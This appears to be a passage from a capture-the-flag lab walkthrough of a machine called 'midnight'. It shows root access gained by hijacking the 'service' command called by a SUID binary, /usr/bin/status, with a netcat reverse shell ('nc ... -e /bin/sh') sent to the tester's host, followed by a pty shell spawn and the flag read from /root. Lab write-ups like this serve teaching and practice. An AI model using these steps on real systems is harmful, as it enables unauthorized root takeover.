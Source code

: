 ```
service ssh status
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
```
// Now I will login to jose's ssh directly and start creating the service, and setting up netcat
```
jose@midnight:~$ cd /tmp
jose@midnight:/tmp$ ls

systemd-private-2ff9d0fe781a4163aa26a6f8d086db21-apache2.service-jti7IK            test
systemd-private-2ff9d0fe781a4163aa26a6f8d086db21-systemd-timesyncd.service-Qo6VIF  vmware-root_297-2126462102

jose@midnight:/tmp$ echo "nc 192.168.45.5 7777 -e /bin/sh" > service
jose@midnight:/tmp$ chmod +x service
jose@midnight:/tmp$ /usr/bin/status
```
// Got root access! Now lets get the flag!

![image](https://user-images.githubusercontent.com/47869173/220795941-68f48aa8-720d-429c-a033-62dad893fa3b.png)
```
listening on [any] 7777 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.164.88] 44660

id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(jose)

whoami
root

python -c 'import pty; pty.spawn("/bin/bash")'

root@midnight:/tmp# cd 
cd 

root@midnight:~# cd root
cd root

root@midnight:~# cd ..
cd ..

root@midnight:/home# cd ..
cd ..

root@midnight:/# cd root
cd root

root@midnight:/root# cat pro
cat proof.txt 
a54421f276f8412036c837083d012cc9
root@midnight:/root# 


